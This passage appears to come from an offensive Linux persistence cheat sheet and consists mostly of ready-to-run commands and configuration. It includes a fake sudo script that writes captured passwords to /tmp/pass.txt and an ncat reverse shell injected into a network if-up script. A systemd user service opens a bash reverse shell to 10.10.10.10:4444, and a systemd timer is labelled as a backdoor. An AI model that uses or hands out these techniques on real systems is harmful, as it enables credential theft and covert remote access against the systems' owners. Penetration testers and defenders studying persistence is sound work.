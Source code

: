 Finally, create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```

## Startup Service

Edit `/etc/network/if-up.d/upstart` file

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Systemd User Service

Create a service file in `~/.config/systemd/user/`.

```ps1
vim ~/.config/systemd/user/persistence.service
```

Add the following configuration:

```ps1
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```ps1
systemctl --user enable persistence.service
systemctl --user start persistence.service
```

## Systemd Timer File

A Systemd Timer is a way to schedule tasks (like cron jobs) using Systemd instead of `cron`. It works alongside a corresponding service file to execute commands at specific intervals or times.

Create a timer file : `/etc/systemd/system/backdoor.timer`

```ini
[Unit]
Description=Backdoor Timer

[Timer]
OnBootSec=5min
OnUnitActiveSec=1h

[Install]
WantedBy=timers.target
```
